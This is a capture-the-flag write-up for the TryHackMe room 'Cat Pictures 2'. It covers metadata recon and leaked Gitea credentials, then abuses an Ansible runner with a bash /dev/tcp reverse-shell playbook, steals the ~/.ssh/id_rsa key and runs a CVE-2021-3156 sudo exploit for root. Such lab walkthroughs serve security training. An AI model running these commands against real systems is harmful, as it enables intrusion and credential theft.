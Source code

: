 # Cat Pictures 2

A writeup for the room [Cat Pictures 2](https://tryhackme.com/room/catpictures2) on TryHackMe.

> Now with more Cat Pictures!

<Image src={require("./logo.webp").default} height="256" />

Main parts of the room:

- Reading image metadata
- Accessing Gitea and editing files using Git or in-browser editor
- Runnig custom Ansible tasks through OliveTin
- Exploiting CVE-2021-3156

## Footprinting

Firstly, we can start with a nmap scan.

We find five open ports with three web servers publicly accessible.

```bash
nmap -sS <HOST>
```

<Image src={require("./nmap.webp").default} />

```
22 -> SSH
80 -> Lychee Photo Album
222 -> Gitea SSH (?)
3000 -> Gitea
8080 -> python server (?)
```

## First flag

### Finding interesting metadata

We can begin by looking inside the Lychee Photo Album.

In the info of the first image we can find a message about stripping away the metadata.

<Image src={require("./image.webp").default} />

Once the image is downloaded, we can check its metadata to find an url to a secret txt note.

```
exiftool image.jpg
```

<Image src={require("./metadata.webp").default} />

### The secret note

The url is `:8080/764efa883dda1e11db47671c4a3bbd9e.txt`

```
note to self:

I setup an internal gitea instance to start using IaC for this server. It's at a quite basic state, but I'm putting the password here because I will definitely forget.
This file isn't easy to find anyway unless you have the correct url...

gitea: port 3000
user: samarium
password: TUmhyZ37CLZrhP

ansible runner (olivetin): port 1337
```

### Accessing Gitea

Now, we have the credentials for the Gitea instance.

Once logged in, we can see a repository called `ansible`.

<Image src={require("./repo.webp").default} />

Inside the repository there is a file called `flag1.txt`. Open it to get the first flag.

## Second flag

### Running Ansible tasks using OliveTin

From the secret note, we know that Ansible is accessible on the port 1337.

There we can find a OliveTin instance that allows to run the Ansible tasks.

<Image src={require("./ansible.webp").default} />

### Editing the playbook

It is possible to change the script `playbook.yml` through Gitea and then run it from OliveTin.

If you prefer you can also configure the ssh access and modify it from your machine.

<Image src={require("./edit.webp").default} />

Firstly, we can print the content of the home folder.

Following the example script, this is a possible solution.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print home folder
      become: false
      command: ls -lR ~
      register: ls_content
      changed_when: false

    - debug: var=ls_content
```

Run the script and check the output.

We can see that in the home folder there is a file called `flag2.txt`.

We can edit again the script to print the content of the flag.

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: print flag2
      become: false
      command: cat flag2.txt
      register: flag2
      changed_when: false

    - debug: var=flag2
```

<Image src={require("./ansible-output.webp").default} />

If you check the output, you can see the second flag.

## Third flag

### Obtaining a reverse shell

For the third flag, it is better to use a reverse shell.

Remember to listen with:

```bash
nc -nlvp <PORT>
```

To check your IP use:

```bash
ifconfig
```

In this Gist you can find an example:

<Gist id="32ccf1baaa3066654a460265fca53960" />

```yaml
---
- name: Test
  hosts: all
  remote_user: bismuth
  tasks:
    - name: rev
      shell: bash -c 'bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1'
```

<Image src={require("./rev.webp").default} />

### Stealing ssh keys

To make the work easier, we can also steal the ssh key.

It is enough to copy the content of `~/.ssh/id_rsa` and paste it in a file on our machine.

Then, we can use the command `ssh -i <FILE> bismuth@<HOST>` to login.

### Exploiting CVE-2021-3156

We can try with LinPeas and LinEnum, but a faster way is to exploit the CVE-2021-3156 vulnerability.

[https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

Download the file from the github repo and copy them on the machine.

After that, follow the instructions to exploit the vulnerability.

In the end, you should run something like this:

```bash
# build the exploit
make

# obtain a list of possible targets
./sudo-hax-me-a-sandwich

# select a target
./sudo-hax-me-a-sandwich 0
```

The third flag is in the root folder.

<Image src={require("./pe.webp").default} />
